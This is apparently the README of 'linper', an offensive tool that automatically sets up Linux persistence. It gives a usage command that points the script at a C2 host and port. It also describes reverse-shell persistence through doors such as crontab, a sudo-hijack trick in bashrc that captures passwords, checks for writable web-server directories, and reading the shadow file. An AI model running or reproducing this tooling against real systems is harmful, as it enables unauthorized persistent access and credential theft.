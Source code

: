 # linper

Automated Linux Persistence Establishment

Automatically install multiple methods of persistence, or just enumerate possible methods.

## files

- README.md - or not
- linper.sh - execute on target
- gtfobins/ - directory containing (possibly modified) snippets of code from [gtfobins](https://gtfobins.github.io/) as I am working on integrating them into the overall script

## usage

Enumerate all persistence methods and install

`bash linper.sh --rhost myc2.host.domain --rport 4444`

Enumerate and do not install

`bash linper.sh -d`

## methodology

1. Enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is set
2. Sudo hijack attack - Enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack that binary". Thanks to [this Null Byte article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea.
3. Web Server Poison Attack - Enumerates whether or not the webserver's directories are writable (this feature will be expanded, see TODO.md)
4. Shadow file enumeration - Enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts